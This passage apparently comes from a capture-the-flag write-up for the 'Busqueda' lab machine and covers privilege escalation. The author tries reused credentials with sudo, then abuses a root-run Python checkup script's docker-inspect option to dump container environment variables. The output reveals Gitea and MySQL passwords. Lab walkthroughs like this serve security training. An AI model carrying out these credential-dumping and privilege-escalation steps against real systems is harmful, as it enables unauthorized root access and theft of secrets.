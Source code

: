 Try the creds gathered from git config on sudo

```bash
bash-5.1$ sudo -l
[sudo] password for svc:
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
bash-5.1$
```

```bash
bash-5.1$ python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea
```

```bash
┌──(root㉿kali)-[/opt/tools/privesc]
└─# echo -n <RESULT> | jq .

  "Env": [                                                                                                                                                                                                           "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",                                                                                                                                                                                   "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",                                                                                                                                             "USER=git",
    "GITEA_CUSTOM=/data/gitea"                                                                                                                                                                                     ],
```

```bash
bash-5.1$ python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' mysql_db
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```
